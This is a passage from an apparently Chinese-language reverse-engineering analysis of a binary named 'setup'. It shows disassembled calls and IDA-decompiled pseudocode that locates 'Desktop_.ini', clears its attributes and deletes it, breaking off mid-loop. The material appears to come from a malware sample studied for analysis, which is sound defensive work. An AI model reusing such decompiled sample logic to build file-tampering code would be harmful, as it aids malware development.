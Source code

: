 0040D627    . E8 70ABFFFF   call setup.0040819C

0040D62C   .  E8 5BFBFFFF   call setup.0040D18C

0040D631   .  E8 52FAFFFF   call setup.0040D088

### call 0040819C
在IDA中进入 call setup.0040819C，主要代码如下：

`v61 = &savedregs;`

` v60 = &loc_408781;`

` v59 = __readfsdword(0);`

` __writefsdword(0, (unsigned int)&v59);`

` sub_40277C(this, &v82);`

` sub_405574(v1, &v83);`

` sub_403ED4(v2, "Desktop_.ini");`

` if ( (unsigned __int8)sub_405694() )`

` {`

`   sub_40277C(v3, &v80);`

`   sub_405574(v4, &v81);`

`   sub_403ED4(v5, "Desktop_.ini");`

`   v6 = (const CHAR *)sub_4040CC();`

`   SetFileAttributesA(v6, 0x80u);`

`   Sleep(1u);`

`   sub_40277C(v7, &v78);`

`   sub_405574(v8, &v79);`

`   sub_403ED4(v9, "Desktop_.ini");`

`   v10 = (const CHAR *)sub_4040CC();`

`   DeleteFileA(v10);`

` }`

` sub_40277C(v3, &v77);`

` sub_407650(v11, &v89);`

` sub_403C44();`

` for ( i = ((int (*)(void))sub_403ECC)(); i > 0 && *(_BYTE *)(v89 + i - 1); --i )`

` {`

`   v14 = v89;`

`   LOBYTE(v14) = *(_BYTE *)(v89 + i - 1);`
